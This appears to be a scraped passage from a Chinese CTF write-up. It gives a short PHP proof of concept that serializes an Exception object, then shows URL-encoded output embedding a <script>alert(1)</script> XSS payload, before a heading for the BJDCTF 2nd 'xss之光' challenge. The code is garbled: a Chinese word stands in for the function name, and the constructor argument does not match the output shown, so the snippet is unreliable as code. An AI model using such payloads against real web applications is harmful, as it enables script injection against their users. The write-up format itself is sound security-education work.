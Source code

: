 `赠送POC：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7  
    

|

    
    
      
    $a = new  Exception ( "" );   
    $b = 序列化( $a );   
    echo urlencode( $b );    
    ?>  
      
    //输出：O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29% 3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi% 3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22% 3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D  
      
  
---|---  
  
`  
`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084241.png)`

## `[BJDCTF 2nd]xss之光`

`进入题目，首先通过git泄露暴露：`

`  
`

``

`PHP`

``

    
    